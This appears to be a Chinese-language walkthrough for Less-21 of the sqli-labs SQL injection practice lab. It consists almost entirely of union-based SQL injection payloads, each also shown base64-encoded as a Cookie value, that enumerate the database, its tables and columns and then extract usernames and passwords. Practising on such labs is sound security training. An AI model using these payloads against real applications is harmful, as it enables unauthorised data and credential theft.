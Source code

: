 # **Less-21** 

**Cookie Injection- Error Based- complex - string ( 基于错误的复杂的字符型Cookie注入)**



 Cookie 这里是经过 base64 加密的，所以我们只需要传入加密后的 payload 给 cookie 的 uname 即可

爆位置paylaod

### 手工注入

**注uname的值为不正确的**

```
-admin') union select 1,2,3#

Cookie: uname=LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMiwzIw==
```

暴库

```
-admin') union select 1,2,database()#


Cookie: uname=LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixkYXRhYmFzZSgpIw==
```

暴表

```
-admin') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#

 
Cookie: uname=LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpIw==
```

暴字段

```
-admin') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#

 
LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZT0ndXNlcnMnIw==
```

暴值

```
-admin') union select 1,2,group_concat(username,0x3a,password) from users#


LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodXNlcm5hbWUsMHgzYSxwYXNzd29yZCkgZnJvbSB1c2VycyM=
```
